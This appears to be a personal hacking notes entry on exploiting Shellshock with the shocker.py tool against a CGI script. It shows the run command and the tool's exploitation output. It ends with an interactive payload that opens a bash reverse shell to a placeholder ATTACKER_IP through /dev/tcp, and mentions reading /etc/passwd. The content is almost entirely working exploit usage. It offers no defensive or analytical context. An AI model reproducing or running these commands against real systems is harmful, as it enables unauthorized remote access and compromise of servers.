 # shellshock python2 exploit reverse shell usage
```
python2 shocker.py -H $IP --cgi /cgi-bin/test/test.cgi

   .-. .            .
  (   )|            |
   `-. |--. .-.  .-.|.-. .-. .--.
  (   )|  |(   )(   |-.'(.-' |
   `-' '  `-`-'  `-''  `-`--''  v1.1

 Tom Watson, tom.watson@nccgroup.trust
 https://www.github.com/nccgroup/shocker

 Released under the GNU Affero General Public License
 (https://www.gnu.org/licenses/agpl-3.0.html)


[+] Single target '/cgi-bin/test/test.cgi' being used
[+] Checking connectivity with target...
[+] Target was reachable
[+] Looking for vulnerabilities on xxxxxxxxxxxxxx:80
[+] 1 potential target found, attempting exploits
[+] The following URLs appear to be exploitable:
  [1] http://xxxxxxxxxxxxxx:80/cgi-bin/test/test.cgi
[+] Would you like to exploit further?
[>] Enter an URL number or 0 to exit: 1
[+] Entering interactive mode for http://xxxxxxxxxxxxxx:80/cgi-bin/test/test.cgi
[+] Enter commands (e.g. /bin/cat /etc/passwd) or 'quit'
  > /bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/80 0>&1'
```
# References
- [20221003150500](/zet/20221003150500/) shellshock python2 exploit
- ~/kb/hacking/exploit/shellshock-exploit.md

Tags:
    #assorted

